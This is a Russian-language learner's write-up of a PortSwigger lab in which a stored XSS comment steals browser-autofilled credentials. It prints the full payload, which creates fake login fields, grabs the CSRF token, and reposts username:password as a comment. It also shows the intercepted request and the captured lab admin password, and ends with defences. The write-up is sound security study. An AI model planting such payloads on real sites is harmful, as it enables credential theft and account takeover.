

лаба про то как можно стырить пароли и логины
через xss путем подстановки ложных полей логина/пароля
и после ввода - данные уходят к узлоумышленнику!

------
лаба https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords
#### Использование кросс-сайтовых скриптов для захвата паролей
задание:
нужно оставить xss в комментах так
чтобы пейлоад тырил имя / пароль необходимые для входа в аккаунт
но решить через отправку на свой сервер не получится , но наверно получиться просто выполнить запрос от имени жертвы с отправкой коммента в котором будут лог/пароль

----

теория, некоторые браузеры и юзеры использую автозаполнение паролей!
поэтому если создать невидимую форму для ввода лог/пар - то данные могут заполниться автоматически!

----

использую простой пейлоад из предыдущей лабы
там пейлоад коммента подставлялся между тегами < p> < /p> без всякой валидации и запретов выполнения js скриптов!

```html


```
в результате - срабатывает аллерт, отлично, уязвимость xss есть!

но задание лабы, это получать пароли через функции автозаполнения паролей!

------

вот перехваченный запрос POST /post/comment который отправляет коммент
```http
POST /post/comment HTTP/2
Host: 0aa6007e04221aac80bb1740007500ba.web-security-academy.net
Cookie: session=FVzGMxSsEvZCpdlcqjiAL7chA1cXeQIH
Content-Length: 1203
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0aa6007e04221aac80bb1740007500ba.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aa6007e04221aac80bb1740007500ba.web-security-academy.net/post?postId=2
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=ShaCMqBGCcsQt907QpBYlbhtpDqRaZxg&postId=2&comment=%3Cinput+type%3D%22text%22+name%3D%22username%22%3E%0D%0A%3Cinput+type%3D%22password%22+name%3D%22password%22+onchange%3D%22exploit%28%29%22%3E%0D%0A%3Cscript%3E%0D%0Afunction+exploit%28%29+%7B%0D%0A++++var+username+%3D+document.getElementsByName%28%27username%27%29%5B0%5D.value%3B%0D%0A++++var+password+%3D+document.getElementsByName%28%27password%27%29%5B0%5D.value%3B%0D%0A++++var+token+%3D+document.getElementsByName%28%27csrf%27%29%5B0%5D.value%3B%0D%0A++++var+postId+%3D+2%3B%0D%0A++++var+data+%3D+new+FormData%28%29%3B%0D%0A++++data.append%28%27csrf%27%2C+token%29%3B%0D%0A++++data.append%28%27postId%27%2C+postId%29%3B%0D%0A++++data.append%28%27comment%27%2C+username+%2B+%27%3A%27+%2B+password%29%3B%0D%0A++++data.append%28%27name%27%2C+%27victim%27%29%3B%0D%0A++++data.append%28%27email%27%2C+%27any%40email.com%27%29%3B%0D%0A++++data.append%28%27website%27%2C+%27http%3A%2F%2Fexample.com%27%29%3B%0D%0A++++fetch%28%27%2Fpost%2Fcomment%27%2C+%7B%0D%0A++++++++method%3A+%27POST%27%2C%0D%0A++++++++mode%3A+%27no-cors%27%2C%0D%0A++++++++body%3A+data%0D%0A++++%7D%29%3B%0D%0A%7D%0D%0A%3C%2Fscript%3E&name=zheka&email=2_zheka%40bk.ru&website=
```


POST /post/comment

нужно отправлять также параметры:

csrf
postId
comment
name
email
website

-------

данный скрипт создает просто два инпута с функциональностью автозаполнения полей!
csrf токен вытаскивается из скрытого поля
и после авто подствления данных в поля происходит авто публикация коммента!

```js
<input type="text" name="username">
<input type="password" name="password" onchange="exploit()">
<script>
function exploit() {
    var username = document.getElementsByName('username')[0].value;
    var password = document.getElementsByName('password')[0].value;
    var token = document.getElementsByName('csrf')[0].value;
    var postId = 2;
    var data = new FormData();
    data.append('csrf', token);
    data.append('postId', postId);
    data.append('comment', username + ':' + password);
    data.append('name', 'victim');
    data.append('email', 'any@email.com');
    data.append('website', 'http://example.com');
    fetch('/post/comment', {
        method: 'POST',
        mode: 'no-cors',
        body: data
    });
}
</script>
```


таким образом, жертва просто перешла на страницу и ее данный ушли в коммент
[victim](http://example.com/) | 24 February 2026
administrator:3j0ooe9s6lqnlnm2opkm




-----
использовал эти данные для входа в аккаунт!
вошел в ак админа - лаба решена!!!!!


-------


### как решилась лаба

первый шаг создаются два поля ввода username и password. 
браузер видит что это поля для логина и пароля и если у пользователя сохранены учётные данные для этого сайта он автоматически заполняет их


второй шаг на поле password вешается событие onchange. это значит что как только значение в этом поле изменится (а оно изменится когда браузер автоматически вставит пароль) сразу запустится функция exploit

третий шаг внутри функции exploit собираются данные. username и password берутся из созданных полей. csrf токен вытаскивается из скрытого поля которое есть на любой странице с формой комментария. postId мы знаем потому что видим его в url когда находимся на странице поста


четвёртый шаг все эти данные упаковываются в formdata и отправляются через fetch на эндпоинт /post/comment. 
это тот же самый адрес на который отправляется обычная форма комментария. 
мы знаем его потому что перехватывали запрос в бурпе когда оставляли обычный комментарий


пятый шаг - жертва открывает страницу и ее лог/пар улетают как коммент
	(либо улетают на мой сервер / в этой лаба только платный burp сервер можно использовать)


и в итоге - я взял данные юзера и стащил их, использовал для входа в аккаунт

#### теперь выводы

уязвимость сработала потому что сайт позволял вставлять произвольный html и javascript в комментарии без экранирования

браузер выполнил вредоносный код который создал фальшивые поля ввода

автозаполнение паролей сработало так как поля имели правильные имена

csrf токен оказался доступен через javascript потому что не было защиты

данные ушли через обычный запрос на тот же сайт минуя внешние серверы

## как защититься

экранировать весь пользовательский ввод при выводе на страницу чтобы нельзя было вставить свои теги и скрипты

использовать httponly и samesite куки чтобы защитить сессионные данные

применять content security policy csp которая запретит выполнение инлайн скриптов

не хранить csrf токены в местах доступных через javascript или использовать дополнительные проверки

добавить флаг autocomplete off для важных полей чтобы браузер не заполнял их автоматически без ведома пользователя